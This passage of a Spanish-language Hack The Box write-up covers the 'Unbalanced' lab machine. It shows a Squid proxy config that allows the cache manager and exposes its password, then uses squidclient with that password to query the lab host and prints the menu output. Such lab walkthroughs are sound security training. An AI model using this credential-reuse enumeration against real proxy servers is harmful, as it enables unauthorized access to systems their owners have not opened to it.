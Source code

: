 Y ahora validemos en la web:

![268pageproxydone](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unbalanced/268pageproxydone.png)

Muy bien, lo siguiente será jugar con el logging área que tenemos y los apartados de la izquierda.

Entre la búsqueda de información encontré [este post](http://www.alcancelibre.org/staticpages/index.php/19-5-como-squid-cachemgr) en el que podemos confirmar que `Thah$Sh1` es una contraseña, probablemente la usemos dentro de poco (:

Después de un tiempo perdido, decidí buscar ayuda, le hable a [@TazWake](https://www.hackthebox.eu/profile/49335), miembro activo de HTB. Me indico que revisara muy bien el archivo, ya que se nos está permitiendo el acceso a otro recurso y prácticamente nos está diciendo que podemos ver con ese recurso... Pues después de esto, vi que tenemos acceso a `manager`:

```bash
http_access allow manager
```

Es una utilidad que muestra estadísticas sobre los procesos llevados a cabo por **squid**, además de ser una buena manera de llevar la cache. Podemos ver la info mediante la herramienta `squidclient`. Esta es la data que nos interesa:

```bash
cachemgr_passwd Thah$Sh1 menu pconn mem diskd fqdncache filedescriptors objects vm_objects counters 5min 60min histograms cbdata sbuf events
cachemgr_passwd disable all
```

Esto nos indica que la contraseña para autenticarnos hacia el proxy es `Thah$Sh1` y que podemos ver información mediante estos argumentos: `menú pconn mem diskd fqdncache filedescriptors objects vm_objects counters 5min 60min histograms cbdata sbuf events`.

* Así mismo encontré [esta tabla](http://etutorials.org/Server+Administration/Squid.+The+definitive+guide/Chapter+14.+Monitoring+Squid/14.2+The+Cache+Manager/) donde se detalla el uso de cada uno.
* También nos indica la sintaxis de como se usa `manager`.

```bash
–» squidclient -h 10.10.10.200 -p 3128 -w 'Thah$Sh1' mgr:menu
HTTP/1.1 200 OK
Server: squid/4.6
Mime-Version: 1.0
Date: Tue, 17 Nov 2020 20:32:20 GMT
Content-Type: text/plain;charset=utf-8
Expires: Tue, 17 Nov 2020 20:32:20 GMT
Last-Modified: Tue, 17 Nov 2020 20:32:20 GMT
X-Cache: MISS from unbalanced
X-Cache-Lookup: MISS from unbalanced:3128
Via: 1.1 unbalanced (squid/4.6)
Connection: close

 index                  Cache Manager Interface                 disabled
 menu                   Cache Manager Menu                      protected
 offline_toggle         Toggle offline_mode setting             disabled 
 shutdown               Shut Down the Squid Process             disabled 
 reconfigure            Reconfigure Squid                       disabled
 rotate                 Rotate Squid Logs                       disabled 
 pconn                  Persistent Connection Utilization Histograms    protected
 mem                    Memory Utilization                      protected
 diskd                  DISKD Stats                             protected
 squidaio_counts        Async IO Function Counters              disabled 
 config                 Current Squid Configuration             disabled
 client_list            Cache Client List                       disabled 
 comm_epoll_incoming    comm_incoming() stats                   disabled
 ipcache                IP Cache Stats and Contents             disabled
 fqdncache              FQDN Cache Stats and Contents           protected
 idns                   Internal DNS Statistics                 disabled
 ...
```
